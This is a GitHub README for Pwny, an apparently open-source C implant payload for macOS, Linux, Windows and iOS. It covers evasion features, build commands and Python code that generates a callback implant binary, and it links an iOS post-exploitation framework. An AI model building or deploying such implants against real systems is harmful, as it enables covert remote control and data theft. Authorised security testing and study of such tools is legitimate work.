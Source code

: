 <h3 align="left">
    <img src="https://github.com/EntySec/Pwny/blob/main/docs/logo.png" alt="logo" height="250px">
</h3>

*Friendly like a Pony, Mighty like a Knight*

[![Developer](https://img.shields.io/badge/developer-EntySec-blue.svg)](https://entysec.com)
[![Language](https://img.shields.io/badge/language-C-grey.svg)](https://github.com/EntySec/Pwny)
[![Language](https://img.shields.io/badge/language-Python-blue.svg)](https://github.com/EntySec/Pwny)
[![Forks](https://img.shields.io/github/forks/EntySec/Pwny?style=flat&color=green)](https://github.com/EntySec/Pwny/forks)
[![Stars](https://img.shields.io/github/stars/EntySec/Pwny?style=flat&color=yellow)](https://github.com/EntySec/Pwny/stargazers)
[![CodeFactor](https://www.codefactor.io/repository/github/EntySec/Pwny/badge)](https://www.codefactor.io/repository/github/EntySec/Pwny)

Pwny is an implementation of an advanced payload written in pure C and designed for portability and extensibility.

This repository contains Pwny, which is supposed to work on *macOS*, *Linux*, *Windows* and *iOS*, but can be ported to almost every POSIX system. Pwny is optimized to work with or without [HatSploit Framework](https://github.com/EntySec/HatSploit).

## Features

* Portable C code that can be compiled for a big range of targets.
* Support for *macOS*, *Linux*, *Windows* and *iOS* targets.
* Small executable with low resource utilization optimized for embedded systems.
* Dynamically-extendable, supports loading plugins (TABs) which extend its functionality.
* Evasion techniques such as process migration and in-memory loading.

## Installing

To install Pwny you simply need to install [HatSploit Framework](https://github.com/EntySec/HatSploit) and this will make Pwny available automatically.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

## Building

**Building dependencies:**

```
make TARGET=<target>
```

**NOTE:** For *macOS / iOS* targets you are required to set `SDK` to the desired SDK path before running `make`. For example:

```
make TARGET=<target> SDK=<path>
```

You can find list of supported `TARGET` values for different platforms.

<details>
    <summary>Linux</summary><br>
    <code>aarch64-linux-musl</code><br>
    <code>armv5l-linux-musleabi</code><br>
    <code>armv5b-linux-musleabi</code><br>
    <code>i486-linux-musl</code><br>
    <code>x86_64-linux-musl</code><br>
    <code>powerpc-linux-muslsf</code><br>
    <code>powerpc64le-linux-musl</code><br>
    <code>mips-linux-muslsf</code><br>
    <code>mipsel-linux-muslsf</code><br>
    <code>mips64-linux-musl</code><br>
    <code>s390x-linux-musl</code><br>
    <br>
</details>

<details>
    <summary>Windows</summary><br>
    <code>x86_64-w64-mingw32</code><br>
    <code>x86_64-w64-mingw32</code><br>
    <br>
</details>

<details>
    <summary>macOS / iOS</summary><br>
    <code>arm-iphone-darwin</code><br>
    <code>aarch64-iphone-darwin</code><br>
    <code>i386-apple-darwin</code><br>
    <code>x86_64-apple-darwin</code><br>
    <code>aarch64-apple-darwin</code><br>
    <br>
</details>

**Building sources:**

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -B build
cmake --build build
```

**NOTE:** For *macOS / iOS* targets you are required to set `CMAKE_OSX_SYSROOT` to the desired SDK path with `-D`. For example:

```shell
cmake -DCMAKE_TOOLCHAIN_FILE=<toolchain> -DCMAKE_OSX_SYSROOT=<path> -B build
```

**NOTE:** Toolchains are located at `toolchain/cmake/`.

These are other `cmake` build options:

* `MAIN` - Should be `ON` if you want to build a source file to executable.
* `SOURCE` - Custom executable source file (default are in `src/main/`).
* `DEBUG` - Should be `ON` if you want to build Pwny in debug mode.
* `BUNDLE` - Build as bundle (macOS specific flag, adds `-bundle`)

## Basic usage

To use Pwny and build payloads you should import it to your source.

```python3
from pwny import Pwny
from pwny.session import PwnySession
```

* `Pwny` - Pwny object that is used to generate payload implant.

```python3
pwny = Pwny(
    target='aarch64-apple-darwin',
    options={
        'uri': 'tcp://127.0.0.1:8888'
    }
)

with open('payload.exe', 'wb') as f:
    f.write(pwny.to_binary())
```

* `PwnySession` - Wrapper for `HatSploitSession` for Pwny, HatSploit should use it with Pwny payload. It might also be used without HatSploit as demonstrated in `examples/listener.py`.

## Projects

* [SeaShell Framework](https://github.com/EntySec/SeaShell) - iOS post-exploitation framework that enables you to access the device remotely, control it and extract sensitive information. SeaShell actively uses Pwny implant to communicate with iOS.

## Caveats

The code provided in this repository has not yet been prepared for use in a production environment. It can be improved, so any contribution is welcome. You can even experience memory leaks, so we'll be glad to accept every single PR which is fixing a potential issue.
